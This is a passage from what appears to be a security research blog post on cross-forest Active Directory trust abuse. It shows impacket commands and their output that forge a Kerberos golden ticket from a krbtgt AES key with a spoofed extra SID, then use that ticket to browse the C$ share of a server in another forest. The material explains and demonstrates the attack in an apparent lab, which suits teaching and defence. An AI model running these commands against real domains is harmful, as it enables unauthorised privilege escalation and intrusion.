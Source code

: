 ```
drw-rw-rw-          0  Wed Aug 19 01:32:33 2020 System Volume Information
drw-rw-rw-          0  Mon Aug 17 03:44:52 2020 Users
drw-rw-rw-          0  Mon Aug 17 01:46:32 2020 Windows
drw-rw-rw-          0  Thu Jun 10 11:40:01 2021 WindowsAzure
# 
```

Here is a demo of the same attack using mimikatz and kekeo:

<video width="100%" controls>
   <source src="/assets/raw/kekeodemo.mp4" type="video/mp4">
</video> 

As I mentioned earlier in this blog, in most cases you actually won't need to forge an inter-realm trust ticket. The same holds for this case, we can also create a golden ticket with only the SID of the spoofed server as extra SID, and let impacket handle the referrals. The only caveat in this case is that you'll need to make sure the A records of the different forests resolve to the respective domain controllers, because impacket can only specify one DC IP, which breaks when following referrals.

Creating the golden ticket with the AES key of the krbtgt account in forest A: 

```
python ~/impacket/examples/ticketer.py -domain forest-a.krbtgt.cloud -domain-sid S-1-5-21-4138248074-3154221552-1885830394 -user-id 1000 -groups 513 -extra-sid S-1-5-21-2937342636-164546242-3042484607-500 -aesKey 68a604fea66cd26afbe34eb49cda1a792c9fd697d627329a52ce79231d452176 superuser
Impacket v0.9.23.dev1+20210528.195232.25c62f65 - Copyright 2020 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for forest-a.krbtgt.cloud/superuser
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in superuser.ccache
```

Using the golden ticket:

```
KRB5CCNAME=superuser.ccache python ~/impacket/examples/smbclient.py -k forest-a.krbtgt.cloud/superuser@forest-b-server.forest-b.krbtgt.cloud -no-pass  -debug
Impacket v0.9.23.dev1+20210528.195232.25c62f65 - Copyright 2020 SecureAuth Corporation

[+] Impacket Library Installation Path: /home/user/impacket/impacket
[+] Using Kerberos Cache: superuser.ccache
[+] SPN CIFS/FOREST-B-SERVER.FOREST-B.KRBTGT.CLOUD@FOREST-A.KRBTGT.CLOUD not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/FOREST-A.KRBTGT.CLOUD@FOREST-A.KRBTGT.CLOUD
[+] Using TGT from cache
[+] Trying to connect to KDC at FOREST-A.KRBTGT.CLOUD
[+] Trying to connect to KDC at FOREST-B.KRBTGT.CLOUD
Type help for list of commands
# use C$
# ls
drw-rw-rw-          0  Mon Aug 17 03:45:45 2020 $Recycle.Bin
-rw-rw-rw-     389408  Wed Dec  4 21:28:06 2019 bootmgr
-rw-rw-rw-          1  Wed Dec  4 21:28:06 2019 BOOTNXT
drw-rw-rw-          0  Wed Dec  4 21:44:12 2019 Documents and Settings
drw-rw-rw-          0  Thu Jun 10 11:40:01 2021 Packages
drw-rw-rw-          0  Wed Dec  4 21:37:36 2019 PerfLogs
drw-rw-rw-          0  Wed Dec  4 21:37:36 2019 Program Files
```